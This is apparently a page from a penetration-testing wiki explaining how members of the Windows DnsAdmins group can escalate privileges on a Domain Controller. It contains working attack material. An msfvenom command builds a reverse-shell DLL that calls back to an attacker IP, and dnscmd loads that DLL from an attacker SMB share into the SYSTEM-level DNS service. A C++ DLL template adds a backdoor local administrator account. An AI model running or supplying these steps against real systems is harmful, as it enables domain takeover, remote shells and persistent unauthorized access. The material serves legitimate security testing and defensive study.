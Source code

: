 # DNSAdmins

## Theory

Members of the built-in DNSAdmin group can read, write, create, delete DNS records (e.g. edit the [wildcard record](../../mitm-and-coerced-authentications/adidns-spoofing.md#manual-record-manipulation) if it already exists). Its members can also [run code via DLL on a Domain Controller operating as a DNS server](https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83) ([CVE-2021-40469](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40469)).

The attack relies on a DLL injection into the **dns service** running as SYSTEM on the DNS server which most of the time is on a Domain Contoller which in this case implicate a domain compromise.

{% hint style="info" %}
You must be member of the DnsAdmins group to perform this attack.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Exploit - msfvenom" %}
First, generate a DLL to inject

```bash
# Generating the DLL
sudo msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.28 LPORT=5566 -f dll > privesc.dll
```

Now we can replace the service's dll

```bash
# Host the DLL on a SMB server or upload it on the target machine
$ sudo smbserver.py MYSHARE /path/to/dll -smb2support

# On the target machine, update the DNS configuration and give it the DLL
PS > dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.28\TESTLOL\privesc.dll
```

You can know trigger the exploit by restarting the dns service.

```powershell
# You can check if the DLL has been correctly loaded
PS > Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll

# Then restart the DNS service (start your listener on attacking machine before)
PS > sc.exe stop dns
PS > sc.exe query dns
PS > sc.exe start dns
```
{% endtab %}

{% tab title="Custom dll" %}
Here is a template to compile your own DLL for DNS service:

{% code title="evildll.cpp" %}
```cpp
#include <windows.h>
#include <stdlib.h>


// Here so I remember how to compile it.
// x86_64-w64-mingw32-gcc -shared -o evil.dll evildll.cpp

extern "C" __declspec(dllexport) int DnsPluginInitialize(PVOID a1, PVOID a2)
{
  system("net.exe user bob Password123 /add");
  system("net.exe localgroup administrators bob /add");
  return 0;
}

extern "C" __declspec(dllexport) int DnsPluginCleanup()
{
  return 0;
}

extern "C" __declspec(dllexport) int DnsPluginQuery(PSTR a1, WORD a2, PSTR a3, PVOID a4)
{
  return 0;
}


BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        OutputDebugString("DLL_PROCESS_ATTACH");
        break;

    case DLL_THREAD_ATTACH:
        OutputDebugString("DLL_THREAD_ATTACH");
        break;

    case DLL_THREAD_DETACH:
        OutputDebugString("DLL_THREAD_DETACH");
        break;

    case DLL_PROCESS_DETACH:
        OutputDebugString("DLL_PROCESS_DETACH");
        break;
    }

    return TRUE;
}
```
{% endcode %}

Compile it on linux using mingw

```bash
$ x86_64-w64-mingw32-gcc -shared -o evil.dll evildll.cpp
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://cheatsheet.haax.fr/windows-systems/privilege-escalation/dnsadmins_group/" %}

{% embed url="https://malicious.link/post/2020/compiling-a-dll-using-mingw/" %}
